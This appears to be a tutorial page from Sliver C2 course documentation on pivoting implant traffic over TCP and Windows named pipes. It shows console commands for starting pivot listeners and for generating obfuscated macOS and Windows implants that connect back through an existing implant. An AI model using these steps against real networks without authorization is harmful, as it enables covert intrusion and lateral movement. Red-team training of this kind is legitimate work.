 # This course is intended for the 1.6 version of Sliver, which is not yet published

Pivots allow routing implant traffic through other implants. This can be useful in environments that don’t have any outbound access, but are reachable from other parts of the network that you have access to.

Sliver supports two types of pivots: TCP, which can be used on all operating systems, and named pipes, which are Windows-only.

In both cases the workflow is relatively similar, as a first step, select a session and set up a pivot listener.

```bash
[server] sliver (INNER_GO-KART) > pivots tcp

[*] Started tcp pivot listener :9898 with id 1

[server] sliver (INNER_GO-KART) > pivots

 ID   Protocol   Bind Address   Number Of Pivots
==== ========== ============== ==================
  1   TCP        :9898                         0
```

The listening port and interface can be configured during creation.

The next step is to generate a payload that will connect to our listener.

```bash
[server] sliver (INNER_GO-KART) > generate --tcp-pivot 127.0.0.1 --os macos

[*] Generating new darwin/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 12s
[*] Implant saved to /Users/tester/tools/VALUABLE_SICK
```

Executing this payload will cause it to connect back through our original implant and then back to our C2 server.

```asciinema
{"src": "/asciinema/tcppivot.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

As mentionned before named pipe pivots use a similar process, first you need to create a listener:

```bash
[server] sliver (WARM_DRIVEWAY) > pivots named-pipe --bind foobar

[*] Started named pipe pivot listener \\.\pipe\foobar with id 1

```

You can then generate an implant connecting to it 

```bash
sliver > generate --os windows --debug --skip-symbols --named-pipe ./pipe/foobar

[*] Generating new windows/amd64 implant binary
[*] Build completed in 1s
[*] Implant saved to /Users/tester/code/sliver/PROPER_SING.exe
```

